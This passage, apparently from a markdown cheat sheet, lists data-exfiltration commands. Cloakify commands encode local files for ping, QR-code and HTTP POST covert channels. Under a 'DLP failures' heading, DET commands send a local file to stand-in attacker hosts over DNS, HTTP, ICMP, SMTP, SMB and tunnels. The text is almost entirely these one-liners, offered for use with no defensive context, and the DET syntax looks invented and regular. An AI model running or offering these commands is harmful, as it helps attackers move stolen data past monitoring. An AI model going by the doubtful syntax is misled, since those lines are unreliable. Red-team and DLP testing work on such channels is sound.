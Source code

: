 8. **Using CloakifyFactory to exfiltrate data using Ping covert channel:**


`python cloakify.py PING --encode /path/to/local/file.txt`

9. **Using CloakifyFactory to exfiltrate data using QR code covert channel:**

`python cloakify.py QR --encode /path/to/local/file.txt`

10. **Using CloakifyFactory to exfiltrate data using HTTP Post covert channel:**

`python cloakify.py HTTP_POST --encode /path/to/local/file.txt`


https://github.com/TryCatchHCF/Cloakify


### DLP failures

1. **Using DET to exfiltrate data via DNS requests:**

`det.py dns -d attacker.com -f /path/to/local/file.txt`

2. **Using DET to exfiltrate data via HTTP requests:**


`det.py http -d http://attacker.com -f /path/to/local/file.txt`

3. **Using DET to exfiltrate data via ICMP requests:**


`det.py icmp -d attacker.com -f /path/to/local/file.txt`

4. **Using DET to exfiltrate data via SMTP email:**


`det.py smtp -d attacker@example.com -f /path/to/local/file.txt`

5. **Using DET to exfiltrate data via SMB (Windows Share) upload:**


`det.py smb -d //attacker/share -u username -p password -f /path/to/local/file.txt`

6. **Using DET to exfiltrate data via HTTP POST requests:**


`det.py post -d http://attacker.com -f /path/to/local/file.txt`

7. **Using DET to exfiltrate data via ICMP tunneling:**


`det.py tunnel -d attacker.com -f /path/to/local/file.txt`

8. **Using DET to exfiltrate data via DNS tunneling:**


`det.py dns_tunnel -d attacker.com -f /path/to/local/file.txt`

9. **Using DET to exfiltrate data via HTTP tunneling:**


`det.py http_tunnel -d http://attacker.com -f /path/to/local/file.txt`

10. **Using DET to exfiltrate data via HTTP/HTTPS covert channel:**


`det.py http_covert -d http://attacker.com -f /path/to/local/file.txt`
